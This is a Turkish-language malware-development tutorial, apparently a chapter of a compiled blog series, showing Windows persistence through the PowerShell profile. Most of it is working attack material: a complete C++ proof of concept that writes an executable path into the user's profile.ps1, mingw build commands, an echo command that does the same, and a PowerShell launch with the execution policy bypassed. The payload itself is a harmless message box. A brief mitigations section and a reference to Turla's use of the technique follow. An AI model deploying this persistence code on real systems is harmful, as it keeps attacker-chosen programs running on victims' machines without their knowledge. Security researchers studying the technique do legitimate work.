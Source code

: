 \newpage
\subsection{77. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 11. PowerShell Profili. Basit C++ örneği.}

﷽

![pers](./images/70/2022-09-20_08-06.png){width="80%"}    

Bu gönderi, PowerShell profili aracılığıyla gerçekleştirilen ilginç bir kötü amaçlı yazılım kalıcılık tekniği üzerine kendi araştırmalarımın bir sonucudur.    

### powershell profili

Bir PowerShell profili, sistem yöneticilerinin ve son kullanıcıların ortamlarını yapılandırmalarına ve bir Windows PowerShell oturumu başladığında belirli komutları çalıştırmalarına olanak tanıyan bir PowerShell betiğidir.     

PowerShell profil betiği, `WindowsPowerShell` klasöründe saklanır:    

![pers](./images/70/2022-09-20_08-29.png){width="80%"}    

Hedef kullanıcının PowerShell profil dosyasına aşağıdaki kodu ekleyelim. Bu kod, enfekte olmuş kullanıcı bir PowerShell konsolu açtığında otomatik olarak çalıştırılacaktır:    

`Z:\2022-09-20-malware-pers-11\hack.exe`    

Her şeyi pratik bir örnekle göstereceğim ve böylece tüm süreci anlayacaksınız.    

### pratik örnek

Öncelikle, "kötü amaçlı" dosyamızı oluşturalım:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Her zamanki gibi, bu sadece "meow-meow" mesaj kutusudur.    

Derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07.png){width="80%"}    

Daha sonra, doğruluğunu kontrol etmek için kurbanın makinesinde çalıştırabiliriz:    

![pers](./images/70/2022-09-20_09-03.png){width="80%"}    

Ardından bu basit “hileyi” yapıyoruz:   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > 
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

Ve son olarak, PowerShell'i çalıştırın:    

```powershell
powershell -executionpolicy bypass
```

![pers](./images/70/2022-09-20_08-16.png){width="80%"}    

![pers](./images/70/2022-09-20_08-18.png){width="80%"}    

Gördüğünüz gibi, kötü amaçlı mantığımız beklendiği gibi çalıştı ve PowerShell, mesaj kutumuzun üst süreci oldu. =^..^=    

Basitleştirilmiş bir PoC kodu oluşturdum, bu işlemi otomatikleştirmek için:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

Mantık basittir, bu betik sadece profil klasörünü oluşturur (eğer yoksa), ardından profil dosyasını oluşturur ve günceller.     

### demo

Her şeyi çalışırken görmek için PoC kodumuzu derleyelim:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07_1.png){width="80%"}    

Ve bunu kurbanın makinesinde çalıştıralım:    

```powershell
.\pers.exe
```

![pers](./images/70/2022-09-20_08-09.png){width="80%"}    

![pers](./images/70/2022-09-20_08-11.png){width="80%"}    

Ve powershell oturumu başladığında:        

![pers](./images/70/2022-09-20_08-51.png){width="80%"}    

Process Hacker ile kontrol edersek:     

![pers](./images/70/2022-09-20_08-53.png){width="80%"}    

`powershell.exe` beklediğimiz gibi yine üst süreçtir.     

Gördüğünüz gibi her şey mükemmel çalıştı! =^..^=    

Ancak burada bir nüans var. Eğer powershell, yürütme politikası atlama modu olmadan çalıştırılırsa, bu kalıcılık yöntemi benim durumumda çalışmaz:    

![pers](./images/70/2022-09-20_09-05.png){width="80%"}    

Ayrıca, sahip olduğunuz ayrıcalıklara bağlı olarak kötüye kullanabileceğiniz dört farklı PowerShell profili yeri vardır:   

```powershell
$PROFILE | select *
```

![pers](./images/70/2022-09-20_09-08.png){width="80%"}    

PowerShell profil betiğine rastgele talimatlar ekleyerek, PowerShell profilleri birçok kod yürütme fırsatı sunar. Kullanıcının PowerShell'i başlatmasına güvenmemek için, belirli bir saatte PowerShell çalıştıran planlanmış bir görev kullanabilirsiniz.      

### önlemler

Yalnızca imzalı PowerShell betiklerinin çalıştırılmasını zorunlu kılın. Profilleri değiştirilmemeleri için imzalayın. Ayrıca, gerekmediğinde PowerShell profillerini devre dışı bırakabilirsiniz, örneğin `-No-Profile` bayrağıyla.    

Bu kalıcılık yöntemi vahşi doğada [Turla](https://attack.mitre.org/groups/G0010/) grubu tarafından kullanılmıştır.    

Umarım bu yazı, mavi takım üyelerinin bu ilginç teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah daha ekler.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
